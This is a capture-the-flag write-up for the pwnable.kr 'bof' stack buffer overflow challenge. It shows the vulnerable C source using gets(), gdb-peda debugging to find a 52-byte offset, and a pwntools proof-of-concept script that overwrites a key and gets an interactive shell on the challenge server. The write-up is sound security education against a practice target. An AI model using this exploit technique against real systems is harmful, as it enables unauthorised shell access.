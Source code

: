 # [pwnable.kr](http://pwnable.kr/play.php) - bof Challenge
![](pwnable.kr-website.png)
## 1.1 Getting resource
```sh
$ wget http://pwnable.kr/bin/bof && wget http://pwnable.kr/bin/bof.c
```
```bash
th3knight$wget http://pwnable.kr/bin/bof && wget http://pwnable.kr/bin/bof.c
--2022-01-09 17:45:49--  http://pwnable.kr/bin/bof
Resolving pwnable.kr (pwnable.kr)... 128.61.240.205
Connecting to pwnable.kr (pwnable.kr)|128.61.240.205|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7348 (7,2K)
Saving to: ‘bof.2’

bof.2                         100%[=================================================>]   7,18K  --.-KB/s    in 0s

2022-01-09 17:45:50 (526 MB/s) - ‘bof.2’ saved [7348/7348]

--2022-01-09 17:45:50--  http://pwnable.kr/bin/bof.c
Resolving pwnable.kr (pwnable.kr)... 128.61.240.205
Connecting to pwnable.kr (pwnable.kr)|128.61.240.205|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 308 [text/x-csrc]
Saving to: ‘bof.c.2’

bof.c.2                       100%[=================================================>]     308  --.-KB/s    in 0s

2022-01-09 17:45:50 (18,1 MB/s) - ‘bof.c.2’ saved [308/308]
```

## 1.2 Overflowing the program
### 1.2.1 Reading and analysis the source code
First up, we need to see what is in the code
```bash
$ cat bof.c
```
```c
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```
We see that, in the main function inputted is `0xdeadbeef`
```c
int main(int argc, char* argv[]){
        func(0xdeadbeef); // <=== Here
        return 0;
}
```

and in `func()`, there is an array with `char overflowme[32]` and have a risk function called from lib is `gets()` with the note: smash me!
```c
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
```
the `if` key (which is `0xdeadbeef`) is `0xcafebabe`, there would be system call the `sh` binary
```c
if(key == 0xcafebabe){
	system("/bin/sh");
}
```
### 1.2.2 Debugging program and find the offset to overflow & override the key.
In here I will use the gdb debugger to the bug the program
```bash
th3knight$gdb -q bof
Reading symbols from bof...
(No debugging symbols found in bof)
gdb-peda$
```
In here, the output of mine might different than yours because I've already installed the [Peda](https://github.com/longld/peda)
Let's disassembly the main
```powershell
gdb-peda$ disas main

Dump of assembler code for function main:
   0x5655568a <+0>:     push   ebp
   0x5655568b <+1>:     mov    ebp,esp
   0x5655568d <+3>:     and    esp,0xfffffff0
   0x56555690 <+6>:     sub    esp,0x10
   0x56555693 <+9>:     mov    DWORD PTR [esp],0xdeadbeef
   0x5655569a <+16>:    call   0x5655562c <func>
   0x5655569f <+21>:    mov    eax,0x0
   0x565556a4 <+26>:    leave
   0x565556a5 <+27>:    ret
End of assembler dump.
```
In here, we could see in the address `0x56555693` : `0xdeadbeef` moved into pointer of ESP and then `call <func>`. Let's disassembly the function `func` to see other intructions.
```powershell
gdb-peda$ disas func

Dump of assembler code for function func:
   0x5655562c <+0>:     push   ebp
   0x5655562d <+1>:     mov    ebp,esp
   0x5655562f <+3>:     sub    esp,0x48
   0x56555632 <+6>:     mov    eax,gs:0x14
   0x56555638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
   0x5655563b <+15>:    xor    eax,eax
   0x5655563d <+17>:    mov    DWORD PTR [esp],0x78c
   0x56555644 <+24>:    call   0x56555645 <func+25>
   0x56555649 <+29>:    lea    eax,[ebp-0x2c]
   0x5655564c <+32>:    mov    DWORD PTR [esp],eax
   0x5655564f <+35>:    call   0x56555650 <func+36>
   0x56555654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x5655565b <+47>:    jne    0x5655566b <func+63>
   0x5655565d <+49>:    mov    DWORD PTR [esp],0x79b
   0x56555664 <+56>:    call   0x56555665 <func+57>
   0x56555669 <+61>:    jmp    0x56555677 <func+75>
   0x5655566b <+63>:    mov    DWORD PTR [esp],0x7a3
   0x56555672 <+70>:    call   0x56555673 <func+71>
   0x56555677 <+75>:    mov    eax,DWORD PTR [ebp-0xc]
   0x5655567a <+78>:    xor    eax,DWORD PTR gs:0x14
   0x56555681 <+85>:    je     0x56555688 <func+92>
   0x56555683 <+87>:    call   0x56555684 <func+88>
   0x56555688 <+92>:    leave
   0x56555689 <+93>:    ret
End of assembler dump.
```
In this function, we could see the compare intruction `cmp  DWORD PTR [ebp+0x8],0xcafebabe` so we could know this is `if(key == 0xcafebabe)` operation. Let's make a break point on it and create a pattern to overflow and get the offset.

Folowing to the workflow of the code, we could guess or know that `0x5655564f <+35>:  call   0x56555650 <func+36>` would be the `gets()`,  so let's make a breakpoint before and after calling it to see what happend.
```powershell
gdb-peda$ br *0x5655564c
Breakpoint 1 at 0x5655564c
gdb-peda$ br *0x56555654
Breakpoint 2 at 0x56555654
```
Creating the offset
```powershell
gdb-peda$ pattern create 100 1.txt
Writing pattern of 100 chars to filename "1.txt"
gdb-peda$ r < 1.txt
```
On the stop of break point 1, we use `x/100wx $esp` to show the esp. In here we could see there were lots of result and there's the stack store `0xdeadbeef` there
```powershell
0xffffd210:     0xffffd22c      0x00000000      0xf7ffd000      0x00000000
0xffffd220:     0x00000000      0x00000000      0x56555034      0x5655573a
0xffffd230:     0x56556ff4      0xf7fa6000      0x00000001      0x5655549d
0xffffd240:     0xf7fa63fc      0xffffffff      0x56556ff4      0xbb15de00
0xffffd250:     0x56556ff4      0xf7fa6000      0xffffd278      0x5655569f
0xffffd260:     0xdeadbeef      0x00000000      0x565556b9      0x00000000 ; <===
```
Now we know the address `0xffffd260` has`0xdeadbeef`. Enter `c` or `continue` to continue and stop at the next breakpoint. Let's show its stack to get the offset and using the pattern offset of ![peda](https://github.com/longld/peda) to find the exact length
```powershell
gdb-peda$ x/x 0xffffd260
0xffffd260:     0x41474141
gdb-peda$ pattern offset 0x41474141
1095188801 found at offset: 52
```

### 1.3 POC and getting the flag
We already know position of `0xdeadbeef`, it's beginning from word 52. I wrote a python script `poc.py` to make a buffer and send to the server following the instruction of the game `nc pwnable.kr 9000`. 
```python
#!/usr/bin/python3
import struct  
import pwn  
  
junk = b'A'*52  
key = struct.pack('<L', 0xcafebabe)  
overriden_key_buffer = junk + key  
connection = pwn.remote('pwnable.kr', 9000)  
connection.sendline(overriden_key_buffer)  
connection.interactive()
```
Executing the script:
```bash
th3knight$./poc.py
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ ls
bof
bof.c
flag    <=== This is what we need
log
log2
super.pl
```
Thanks for reading
